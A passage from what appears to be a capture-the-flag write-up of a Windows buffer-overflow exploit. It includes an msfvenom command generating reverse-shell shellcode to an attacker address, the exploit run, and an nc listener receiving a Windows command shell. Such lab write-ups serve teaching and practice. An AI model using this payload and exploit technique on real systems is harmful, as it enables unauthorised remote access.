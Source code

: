 ![image*](/img/hancliffe-socket-stack-2.png)

It's about to call EAX, which holds `recv`, and store the shellcode
after a handful of bytes that I control. It will then return to the next
instruction, which at the moment they are INTs (`\xCC`). I'll change
them to NOPs (`\x90`) so that execution continues without issue through
the NOPs and to the shellcode.

#### Add Shellcode

Given that this all looks good, I'll add the shellcode from `msfvenom`
generated using the following:



    msfvenom -p windows/shell_reverse_tcp LHOST=10.1.1.164 LPORT=443 -b "\x00" -f python



I wasn't able to get it to work running in x32dbg, but with the binary
running naturally, it worked:



    oxdf@hacky$ python3 sploit.py PORT=9920
    [+] Opening connection to 10.1.1.163 on port 9920: Done
    [*] Closed connection to 10.1.1.163 port 9920



At `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.1.1.163 49996
    Microsoft Windows [Version 10.0.19044.1288]
    (c) Microsoft Corporation. All rights reserved.
